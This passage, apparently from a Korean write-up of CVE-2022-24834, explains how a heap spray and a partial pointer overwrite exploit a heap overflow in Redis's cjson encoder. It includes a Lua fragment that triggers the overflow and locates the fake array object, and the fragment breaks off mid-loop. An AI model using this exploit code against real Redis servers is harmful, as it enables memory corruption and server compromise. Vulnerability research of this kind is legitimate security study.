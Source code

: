 ![Untitled](1day1document_CVE-2022-24834/Untitled%203.png)

`spray_holder[i][1] = target_ptr`를 반복적으로 수행하면서 target array를 가리키는 `Table`이 다수 할당되고 이중 하나의 `array` 필드를 Partial Overwrite로 `Fake Table`을 가리키게 만들 수 있습니다.

### 4. Heap Overflow

Spray를 완료한 후 `cjson.encode(evil)`을 호출하여 Overflow를 트리거합니다. 이후 `spary_holder`를 순회하면서 Partial Overwrite되어 `array` 필드의 LSB가 0x22인 오브젝트를 `fake_array`로 가져옵니다.

```lua
   --
   -- Trigger vulnerability: Heap overflow on encode_buf
   --
   refs[refs_i] = cjson.encode(evil)
   refs_i = refs_i + 1

   local fake_array = nil
   for i=1,#spray_holder do
      -- spray_holder[i][1][1] = 0x1337
      local obj = spray_holder[i][1]
      if tostring(obj):sub(-2) == "22" then
         fake_array = obj
         -- error(("found: %d"):format(i))
         break
```